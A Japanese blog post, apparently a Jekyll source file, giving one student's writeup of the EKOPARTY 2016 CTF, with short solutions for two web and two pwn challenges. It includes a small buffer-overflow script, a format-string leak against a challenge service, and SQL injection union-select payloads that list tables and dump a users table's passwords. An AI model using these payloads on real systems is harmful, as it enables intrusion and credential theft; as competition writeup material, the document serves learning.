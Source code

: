```yaml
---
layout: post
title: EKOPARTY 2016 writeup
---
```


CTF wo Suruで参加しました. 850ptsで, 110/721位でした.

時間なくてあまり参加出来なくて, 頭付いてないので問題も全然解けなかったです.

学園祭の準備とかダンス部とかで, ここ1ヶ月くらい何もしてなくて何もしてないです.

11/12にサイバー甲子園ってのあるんですけど, 何もしなさすぎて最下位になりそう.

はい, writeup書いていきます.

web25, web50, pwn25, pwn100しか解いてないです.

web100途中まで解いて終わりです.

## web25

robots.txt

`EKO{robot_is_following_us}`


## web50

```
$ curl -I ctf.ekoparty.org
HTTP/1.1 301 Moved Permanently
Server: EKO{this_is_my_great_server}
Date: Thu, 27 Oct 2016 05:51:15 GMT
Content-Type: text/html
Content-Length: 178
Connection: keep-alive
Location: https://ctf.ekoparty.org/
```

`EKO{this_is_my_great_server}`


## Pwn 25

```python
from No___Op import *

target = "9a958a70ea8697789e52027dc12d7fe98cad7833.ctf.site:55000"

c = Pwning( target ) 

payload  = "A" * 24
payload += "\xf3"

c.write(payload)

c.dbg_shell()
```

`EKO{Welcome_to_pwning_challs_2k16}`

## Pwn 100

```bash
$  nc 9a958a70ea8697789e52027dc12d7fe98cad7833.ctf.site 35000
Welcome to my first service
Please input the secret key: AAAA %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x[
Invalid key: AAAA 0 a 0 0 0 a 0 454b4f7b 4c614269 67426566 3072647d 0 41414141 20257820 25782025 78202578 20257820 25782025 78202578 20257820 25782025 78202578 20257820 25782025[

Please input the secret key: 
Invalid key: 

Please input the secret key: ^C
[tsun@host-163-44-172-213 tmp]$ python
Python 2.6.6 (r266:84292, Aug 18 2016, 15:13:37) 
[GCC 4.4.7 20120313 (Red Hat 4.4.7-17)] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> ''.join('454b4f7b 4c614269 67426566 3072647d'.split()).decode('hex')
```

`EKO{LaBigBef0rd}`


## web 100(解けなかった)

`1' union select 1,GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema != 'information_schema';#`

から `users` というテーブルが見つかる

`1' union select 1,GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name = 0x7573657273;#`

`id,username,password` というカラム

`1' union select 1,group_concat(password) from users;#`

Hintが出ていて, どこか別の場所にflagがあるようでした.

放置していたら終わりました.

* * *

ダメです！ｗ
